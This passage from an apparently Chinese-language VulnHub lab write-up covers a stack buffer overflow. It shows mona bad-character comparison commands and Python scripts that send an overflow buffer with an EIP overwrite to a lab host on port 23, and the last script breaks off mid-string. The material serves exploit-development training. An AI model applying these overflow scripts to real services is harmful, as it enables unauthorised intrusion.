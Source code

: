 执行`!mona compare -a esp -f  "D:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin"`

![13](https://static.iihack.com/vulnhub/613/13.png)



```
!mona bytearray -cpb \x00\x4d\x4f\x5f
```

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4e\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x60\x61\x62\x63"
"\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83"
"\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3"
"\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3"
"\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
buff = "A"*1902
eip = "B" * 4
buffer = badchars
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

再次执行`!mona compare -a esp -f  "D:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin"`

![14](https://static.iihack.com/vulnhub/613/14.png)

```
!mona bytearray -cpb \x00\x4d\x4f\x5f\x79
```

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4e\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x60\x61\x62\x63"
"\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84"
"\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4"
```